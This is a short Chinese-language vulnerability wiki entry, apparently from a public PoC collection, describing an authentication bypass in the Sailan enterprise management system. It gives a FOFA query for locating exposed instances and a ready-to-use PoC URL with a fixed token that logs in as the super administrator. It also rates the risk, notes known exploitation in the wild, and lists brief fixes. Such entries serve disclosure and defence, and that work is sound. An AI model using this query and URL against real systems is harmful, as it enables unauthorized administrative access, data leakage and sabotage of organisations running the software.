

# 赛蓝企业管理系统 AuthTokenIndex 身份认证绕过漏洞

# 漏洞描述

赛蓝企业管理系统 AuthToken/Index 接口存在身份认证绕过漏洞，未授权的远程攻击者可以利用此接口构造token绕过身份认证，使用超级管理员账户登录系统后台，造成信息泄露或者恶意破坏，使系统处于极不安全的状态。

影响版本

赛蓝企业管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="www.cailsoft.com" || body="赛蓝企业管理系统"

POC/EXP：

直接访问：/AuthToken/Index?loginName=System&token=c94ad0c0aee8b1f23b138484f014131f

登录后台

# 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
